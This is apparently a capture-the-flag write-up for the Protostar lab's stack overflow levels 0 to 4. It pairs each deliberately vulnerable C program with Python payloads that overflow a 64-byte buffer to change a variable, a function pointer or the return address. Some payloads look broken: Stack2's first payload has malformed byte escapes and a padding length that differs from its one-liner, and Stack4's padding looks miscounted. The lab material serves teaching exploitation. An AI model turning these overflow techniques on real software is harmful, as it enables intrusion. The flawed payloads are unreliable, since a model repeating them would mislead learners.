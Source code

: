 # Stack

## `Stack0`

### source:

```c
// stack0.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

### how to solve:

payload:

```python
python -c "print 'A'*65"  | ./stack0
```

## `Stack1`

### source:

```c
// stack1.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

### how to solve

because the hint tells that _protostar_ is little endian, so we have to match the payload:

```bash
./stack1 $(python -c "import struct; print('A'*64 + '\x64\x63\x62\x61' )")
```

## `Stack2`

### source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

### how to solve:

```shell
# set variable
GREENIE=`python -c "import struct; print('A'*68 + '\x0a\x0d\x0a\0d\0a')"`

# export it to the os env
export GREENIE

# check if it's already loaded
echo $GREENIE

# run the program
./stack2
```

one-liner solution:

```shell
GREENIE=`python -c "import struct; print('A'*64 + '\x0a\x0d\x0a\x0d')"` && export GREENIE && ./stack2
```

## `Stack3`

### source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

### how to solve:

```shell
# get win function address

(gdb) info addr win
Symbol "win" is a function at address 0x8048424.

# use win() address on the payload
python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3

# output:
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## `Stack4`

### source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### how to solve

- override main() return method address
- see win() method by using command `objdump -t /opt/protostar/bin/stack4 | grep win`
- craft payload and try to override return value

payload:

```python
#hitstack4.py
import struct

payload = ""

for s in ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'j', 'k', 'l', 'm', 'n']:
        payload += s.lower()*4

for s in ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'j', 'k', 'l', 'm', 'n']:
        payload += s.lower()*4

ebp = 'EEEE'

eip = struct.pack("I", 0x080483f4)

print payload+ebp+eip
```

```bash
# run the payload
python hitstack4.py | /opt/protostar/bin/stack4
```
